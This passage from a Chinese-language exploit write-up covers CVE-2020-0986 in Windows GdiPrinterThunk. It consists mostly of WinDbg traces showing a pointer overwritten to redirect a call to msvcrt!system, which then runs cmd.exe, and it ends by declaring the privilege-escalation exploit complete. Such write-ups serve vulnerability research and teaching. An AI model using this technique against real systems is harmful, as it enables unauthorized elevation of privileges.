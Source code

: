 <pre><code class="hljs coffeescript">0:006&gt; gdi32full!GdiPrinterThunk+0x2ac:00007ffa`c71a5c5c 488b0d85d51300  mov     rcx,qword ptr [gdi32full!fpDocumentEvent (00007ffa`c72e31e8)] ds:00007ffa`c72e31e8=07ffa3f668d740000:006&gt; ln 00007ffa`c72e31e8Browse moduleSet bu breakpoint(00007ffa`c72e31e8)   gdi32full!fpDocumentEvent   |  (00007ffa`c72e31f0)   gdi32full!fpQuerySpoolModeExact matches:0:006&gt; pgdi32full!GdiPrinterThunk+0x2b3:00007ffa`c71a5c63 48ff1536960a00  call    qword ptr [gdi32full!_imp_RtlDecodePointer (00007ffa`c724f2a0)] ds:00007ffa`c724f2a0=`{`ntdll!RtlDecodePointer (00007ffa`c94477a0)`}`..................................................................................................................0:006&gt; gdi32full!GdiPrinterThunk+0x1fd4a:00007ffa`c71c56fa e834d5feff      call    gdi32full!memcpy (00007ffa`c71b2c33)0:006&gt; rrax=0000000000a20800 rbx=0000000000a20160 rcx=0000000000a20060rdx=00007ffac72e31e8 rsi=0000000000a20088 rdi=0000000000cdca80rip=00007ffac71c56fa rsp=000000000267f280 rbp=000000000267f2e9 r8=0000000000000008  r9=0000000000000100 r10=00000fff5920c6c0r11=000000000267f150 r12=0000000000000000 r13=0000000000000001r14=0000000000000010 r15=0000000000000000iopl=0         nv up ei ng nz ac po cycs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000297gdi32full!GdiPrinterThunk+0x1fd4a:00007ffa`c71c56fa e834d5feff      call    gdi32full!memcpy (00007ffa`c71b2c33)0:006&gt; pgdi32full!GdiPrinterThunk+0x1fd4f:00007ffa`c71c56ff 90              nop0:006&gt; dq 00000000`00a20060 l200000000`00a20060  07ffa3f6`68d74000 00000000`00000000
</code></pre>
</li>
<li>将编码后fpSystem填充到BaseAddress+fpDocOffset地址处。
<pre><code class="hljs coffeescript">0:006&gt; gdi32full!GdiPrinterThunk+0x1fd4a:00007ffa`c71c56fa e834d5feff      call    gdi32full!memcpy (00007ffa`c71b2c33)0:006&gt; rrax=0000000000a20800 rbx=0000000000a20160 rcx=00007ffac72e31e8rdx=0000000000a20810 rsi=0000000000a20088 rdi=0000000000cdca80rip=00007ffac71c56fa rsp=000000000267f280 rbp=000000000267f2e9 r8=0000000000000008  r9=0000000000000100 r10=00000fff5920c6c0r11=000000000267f150 r12=0000000000000000 r13=0000000000000001r14=0000000000000010 r15=0000000000000000iopl=0         nv up ei ng nz ac po cycs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000297gdi32full!GdiPrinterThunk+0x1fd4a:00007ffa`c71c56fa e834d5feff      call    gdi32full!memcpy (00007ffa`c71b2c33)0:006&gt; dq 00007ffac72e31e800007ffa`c72e31e8  07ffa3f6`68d74000 07ffa3f6`0399400000007ffa`c72e31f8  07ffa3f6`038b4000 07ffa3f6`6adf400000007ffa`c72e3208  07ffa3f6`03a54000 07ffa3f6`0d25400000007ffa`c72e3218  07ffa3f6`0b0f4000 07ffa3f6`06d9400000007ffa`c72e3228  00080000`00000000 07ffa3f6`695f400000007ffa`c72e3238  07ffa3f6`09a04000 07ffa3f6`6fd1400000007ffa`c72e3248  00000000`00000000 00000000`0000000000007ffa`c72e3258  00000000`00000000 ffffffff`ffffffff0:006&gt; pgdi32full!GdiPrinterThunk+0x1fd4f:00007ffa`c71c56ff 90              nop0:006&gt; dq 00007ffac72e31e800007ffa`c72e31e8  07ffa46a`c7c34000 07ffa3f6`0399400000007ffa`c72e31f8  07ffa3f6`038b4000 07ffa3f6`6adf400000007ffa`c72e3208  07ffa3f6`03a54000 07ffa3f6`0d25400000007ffa`c72e3218  07ffa3f6`0b0f4000 07ffa3f6`06d9400000007ffa`c72e3228  00080000`00000000 07ffa3f6`695f400000007ffa`c72e3238  07ffa3f6`09a04000 07ffa3f6`6fd1400000007ffa`c72e3248  00000000`00000000 00000000`0000000000007ffa`c72e3258  00000000`00000000 ffffffff`ffffffff
</code></pre>
</li>
<li>最后再发送一次LPC消息，同时在LPC消息中包含system函数的参数，实现漏洞利用
<pre><code class="hljs coffeescript">0:006&gt; gdi32full!GdiPrinterThunk+0x2ac:00007ffa`c71a5c5c 488b0d85d51300  mov     rcx,qword ptr [gdi32full!fpDocumentEvent (00007ffa`c72e31e8)] ds:00007ffa`c72e31e8=07ffa46ac7c340000:006&gt; ln 00007ffa`c72e31e8Browse moduleSet bu breakpoint(00007ffa`c72e31e8)   gdi32full!fpDocumentEvent   |  (00007ffa`c72e31f0)   gdi32full!fpQuerySpoolModeExact matches:0:006&gt; pgdi32full!GdiPrinterThunk+0x2b3:00007ffa`c71a5c63 48ff1536960a00  call    qword ptr [gdi32full!_imp_RtlDecodePointer (00007ffa`c724f2a0)] ds:00007ffa`c724f2a0=`{`ntdll!RtlDecodePointer (00007ffa`c94477a0)`}`0:006&gt; pgdi32full!GdiPrinterThunk+0x2ba:00007ffa`c71a5c6a 0f1f440000      nop     dword ptr [rax+rax]0:006&gt; ln raxBrowse moduleSet bu breakpoint(00007ffa`c8f87ec0)   msvcrt!system   |  (00007ffa`c8f87fe0)   msvcrt!capture_argvExact matches:0:006&gt; gdi32full!GdiPrinterThunk+0x2bf:00007ffa`c71a5c6f 488b4f50        mov     rcx,qword ptr [rdi+50h] ds:00000000`00cdcad0=0000000000a208000:006&gt; gdi32full!GdiPrinterThunk+0x2c3:00007ffa`c71a5c73 448b4f3c        mov     r9d,dword ptr [rdi+3Ch] ds:00000000`00cdcabc=00000020..................................................................................................................0:006&gt; tntdll!LdrpDispatchUserCallTarget:00007ffa`c946c590 4c8b1de9dd0e00  mov     r11,qword ptr [ntdll!LdrSystemDllInitBlock+0xb0 (00007ffa`c955a380)] ds:00007ffa`c955a380=00007df5fbab0000..................................................................................................................0:006&gt; ntdll!LdrpDispatchUserCallTarget+0x3b:00007ffa`c946c5cb 48ffe0          jmp     rax `{`msvcrt!system (00007ffa`c8f87ec0)`}`0:006&gt; da rcx00000000`00a20200  "cmd.exe"
</code></pre>
[![](https://p2.ssl.qhimg.com/t01574aa84450b707d8.png)](https://p2.ssl.qhimg.com/t01574aa84450b707d8.png)
</li>
至此，我们已经完成的CVE-2020-0986的提权EXP编写。